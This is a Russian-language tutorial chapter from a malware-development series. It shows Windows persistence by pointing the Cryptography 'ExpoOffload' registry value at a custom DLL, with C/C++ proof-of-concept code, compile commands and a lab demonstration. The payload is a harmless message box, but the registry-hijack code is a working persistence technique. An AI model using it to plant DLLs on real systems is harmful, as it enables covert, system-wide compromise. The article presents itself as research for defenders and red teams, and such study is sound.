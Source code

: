 \newpage
\subsection{82. разработка вредоносного ПО: закрепление (persistence) - часть 16. Криптографические ключи реестра. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/76/2022-10-21_05-25.png){width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через ключи реестра Cryptography.     

В процессе изучения реестра я наткнулся на интересный путь:     

`HKLM\Software\Microsoft\Cryptography\`     

И там есть такая функция `OffloadModExpo`. Если я правильно понимаю, эта функция используется для выполнения всех модульных возведений в степень как для операций с открытым, так и с закрытым ключом:     

![pers](./images/76/2022-10-21_05-45.png){width="80%"}    

Я не вдавался в слишком большие подробности, самой возможности поэкспериментировать с этим ключом и значением в реестре Windows мне достаточно. Поэтому я попробовал перехватить путь к этой DLL:     

`HKLM\Software\Microsoft\Cryptography\Offload` и его значение.    

### практический пример

Прежде всего, как обычно, создаем "вредоносную" DLL. Как обычно, просто `meow-meow` messagebox (`hack.c`):    

```cpp
/*
hack.c - вредоносная DLL
DLL hijacking через путь в реестре Cryptography
aвтор: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID 
lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Компилируем:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

![pers](./images/76/2022-10-21_05-20.png){width="80%"}    

И создаем Proof-of-Concept код для перехвата (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
hijacking cryptography DLL path
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/21/malware-pers-16.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // reg path
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // evil DLL
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // create key
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // set registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Cryptography\Offload" /v 
    // "ExpoOffload" /t REG_SZ /d "...\hack.dll" /f
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*)
    evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Вот и все, что мне нужно для эксперимента.      

### демонстрация

Давайте посмотрим, как все работает на практике. Компилируем наш Proof-of-Concept код:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/76/2022-10-21_05-21.png){width="80%"}    


Затем, для чистоты эксперимента, проверяем ключи реестра на машине жертвы и удаляем ключи, если они существуют:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

![pers](./images/76/2022-10-21_05-23.png){width="80%"}    

Затем запускаем наш скрипт `pers.exe` и проверяем снова:     

![pers](./images/76/2022-10-21_05-24.png){width="80%"}    

Теперь попробую запустить что-нибудь. Например, открыть ссылку `https:\...` в браузере или воспользоваться строкой поиска.    

![pers](./images/76/2022-10-21_05-25_1.png){width="80%"}    

В процессе выполнения некоторых криптографических операций в фоне мы будем видеть все больше всплывающих окон.    

![pers](./images/76/2022-10-21_05-27.png){width="80%"}    

![pers](./images/76/2022-10-21_05-27_1.png){width="80%"}    

![pers](./images/76/2022-10-21_05-28.png){width="80%"}    

Кроме того, мне даже не удалось запустить `Process Hacker 2` для исследования ситуации.     

![pers](./images/76/2022-10-21_06-09.png){width="80%"}    

Затем я восстановил снимок виртуальной машины и запустил `Procmon` из sysinternals с следующими фильтрами:     

![pers](./images/76/2022-10-21_06-20.png){width="80%"}    

![pers](./images/76/2022-10-21_06-22.png){width="80%"}    

И в результате:     

![pers](./images/76/2022-10-21_06-24.png){width="80%"}    

![pers](./images/76/2022-10-21_06-25.png){width="80%"}    

Как можно видеть, на каком-то этапе моя "вредоносная" `meow-meow` DLL была загружена `svchost.exe`, `ProcessHacker.exe` и другими процессами.     

Таким образом, все сработало правильно. Идеально! =^..^=     

После завершения экспериментов восстанавливаем состояние реестра: 

![pers](./images/76/2022-10-21_05-33.png){width="80%"}    

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-21-malware-pers-16)     
